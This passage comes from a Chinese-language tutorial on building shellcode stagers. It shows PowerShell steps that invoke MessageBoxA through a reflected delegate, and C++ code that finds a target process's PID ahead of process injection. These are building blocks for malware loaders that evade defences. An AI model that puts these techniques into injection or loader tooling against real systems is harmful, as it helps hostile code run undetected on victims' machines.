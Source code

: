 9. 实例化委托类型（反射方式）

```powershell
$MyDelegateType = $MyTypeBuilder.CreateType()
```

10. 得到委托类型

```powershell
$MyFunction = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($MessageBoxA, $MyDelegateType)
```

11. 委托调用函数

```powershell
$MyFunction.Invoke([IntPtr]::Zero,"Hello World","This is My MessageBox",0)
```

最后将上面的所有代码进行封装整合，同时添加上 Download 模块（上篇中提及到），就是上面的完整代码了，全部看起来很复杂，但是理解到其中的逻辑和思路后，实际上也没有那么难的。

三、C++ Stager - 进程注入
-------------------

进程注入是在shellcode runner的基础上进行改进，打开某一进程并让shellcode在其中执行，而非直接运行。那么这里就需要额外添加几部分代码：

1. 获取目标进程pid的代码块
2. 打开该进程并拷贝shellcode的代码块

### 进程注入模块

具体可参考我之前写的这篇文章 - <https://forum.butian.net/share/1510>  
下面也简单的介绍分析下。  
首先是获取目标进程pid模块，其主要代码如下，主要就是利用到了捕获快照函数CreateToolhelp32Snapshot()，依次遍历寻找目标进程的PID，详细可参考注释。

```cpp
int FindTarget(const WCHAR* procname) {
    // PROCESSENTRY32描述快照拍摄时,驻留在系统地址空间的进程列表中的一个条目
    HANDLE hProcSnap;
    PROCESSENTRY32 pe32;
    int pid = 0;
    // CreateToolhelp32Snapshot()拍摄指定进程的快照
    // TH32CS_SNAPPROCESS包括快照中系统的所有进程
    // 返回句柄
    hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hProcSnap) return 0;    // 拍摄快照失败，返回0

    pe32.dwSize = sizeof(PROCESSENTRY32);   // 结构大小
    // 检索快照中的信息
    // 判定快照是否为空
    if (!Process32First(hProcSnap, &pe32)) {
        CloseHandle(hProcSnap);
        return 0;
    }
    // Process32Next()循环检索快照信息  
    // 参数1是快照的句柄，参数2是指向PROCESSENTRY32数据结构的指针
    // lstrcmpiA()比较两个字符，相等返回0，将对应进程的pid返回
    while (Process32Next(hProcSnap, &pe32)) {
        if (lstrcmpiW(procname, pe32.szExeFile) == 0) {
            pid = pe32.th32ProcessID;
            break;
        }
    }
    CloseHandle(hProcSnap);
    return pid;
}
```
